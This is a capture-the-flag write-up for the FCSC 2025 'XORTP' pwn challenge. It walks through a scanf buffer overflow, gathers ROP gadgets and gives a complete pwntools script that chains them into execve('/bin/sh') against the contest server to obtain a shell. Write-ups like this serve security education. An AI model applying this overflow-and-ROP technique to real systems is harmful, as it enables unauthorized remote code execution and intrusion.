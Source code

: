 # Write-up XORTP

Author: Nuliel

Pwn challenge, FCSC 2025

## Problem statement

> You can encrypt any file on the system with an unbreakable mechanism worthy of the greatest!

Two files are attached to the challenge: xortp and xortp.c

## Solution

Let's check the protections on this binary:

```
❯ checksec xortp
[*] '/home/nuliel/ctf/FCSC2025/WU/xortp/xortp'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

There is a buffer overflow on the line 

```
scanf("%s", filename);
```

With gdb and cyclic from pwntools, we can find the offset of saved rip: 152.

Because of NX, we can't put and execute a shellcode from stack. As PIE is not enabled, we can use gadgets from the binary to make a ROP chain. 

We will call execve syscall, so we need:
- rax = 0x3b (syscall number)
- rdi = pointer to /bin/sh (first argument)
- rsi = pointer to argv, will be 0 (second argument)
- rdx = pointer to envp, will be 0 (third argument)
- gadgets for setting each register, and a syscall gadget
- a /bin/sh with known address

From
```
ROPgadget --binary ./xortp
```

we can see these gadgets:

| Address (in hex)   | gadget                            |
|--------------------|-----------------------------------|
| 0x00000000004867a6 | pop rax ; pop rdx ; pop rbx ; ret |
| 0x00000000004011a2 | syscall                           |
| 0x000000000040f972 | pop rsi ; ret                     |
| 0x0000000000401f60 | pop rdi ; ret                     |

We can find the string "/bin/sh" in the binary, at address 00498213 (in .rodata section)

We can use all these informations to get a shell:

```py
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'

# gadgets

# 0x00000000004867a6 : pop rax ; pop rdx ; pop rbx ; ret
# 0x00000000004011a2 : syscall
# 0x000000000040f972 : pop rsi ; ret
# 0x0000000000401f60 : pop rdi ; ret

# 00498213 => /bin/sh in .rodata

pop_rax_rdx_rbx = 0x00000000004867a6
pop_rsi = 0x000000000040f972
pop_rdi = 0x0000000000401f60
addr_bin_sh = 0x00498213
syscall_gadget = 0x00000000004011a2

gdbscript = """
c
"""

io = remote("chall.fcsc.fr", 2105)
# io = gdb.debug("./xortp", gdbscript = gdbscript)

# offset 152: saved rip
# offset 144: saved rbp
io.sendline(cyclic(152) + \
            p64(pop_rdi) + p64(addr_bin_sh) + \
            p64(pop_rsi) + p64(0) + \
            p64(pop_rax_rdx_rbx) + p64(0x3b) + p64(0) + p64(0) + \
            p64(syscall_gadget)
                )
io.interactive()
```

Reference: 
- https://syscalls.mebeim.net/?table=x86/64/x64/latest